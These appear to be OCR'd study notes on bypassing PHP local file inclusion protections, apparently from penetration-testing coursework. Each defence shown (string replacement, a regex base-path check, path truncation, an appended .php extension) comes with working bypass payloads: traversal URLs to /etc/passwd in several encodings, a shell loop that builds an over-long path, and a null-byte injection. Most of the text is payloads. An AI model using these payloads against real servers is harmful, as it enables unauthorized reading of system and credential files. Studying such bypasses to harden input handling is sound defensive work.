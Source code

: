 
Security Measure (Replace string)
```php
$language = str_replace('../', '', $_GET['language']);
```
Bypass
```http
http://<SERVER_IP>:<PORT>/index.php?language=....//....//....//....//etc/passwd
```
```http
http://<SERVER_IP>:<PORT>/index.php?language=..././..././..././..././etc/passwd
```
```http
http://<SERVER_IP>:<PORT>/index.php?language=....\/....\/....\/....\/etc/passwd
```
```http
http://<SERVER_IP>:<PORT>/index.php?language=....\/....\/....\/....\/etc/passwd
```
```http
http://<SERVER_IP>:<PORT>/index.php?language=....////....////....////....////etc/passwd
```
```http
http://<SERVER_IP>:<PORT>/index.php?language=%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%65%74%63%2f%70%61%73%73%77%64
```

Security Measure (Regex) ** Ensure Path includes correct base directive in this case languages**
```php
if(preg_match('/^\.\/languages\/.+$/', $_GET['language'])) {
    include($_GET['language']);
} else {
    echo 'Illegal path specified!';
}
```
Bypass
```http
http://<SERVER_IP>:<PORT>/index.php?language=./languages/../../../../etc/passwd
```

Security Measure(Path Truncation) PHP defined string character limit is 4096 characters
1. Determine long path to make
2. Include disregarded pathing techniques(/etc/passwd/. & ////etc/passwd & /etc/./passwd)
3. Create Path
```shell-session
echo -n "non_existing_directory/../../../etc/passwd/" && for i in {1..2048}; do echo -n "./"; done
```

Security Measure(Append File extension)
```php
$language = append_string($_GET['language'],'.php');
```

Bypass (Before php 5.5)
Null byte injection
```
/etc/passwd%00.php
```

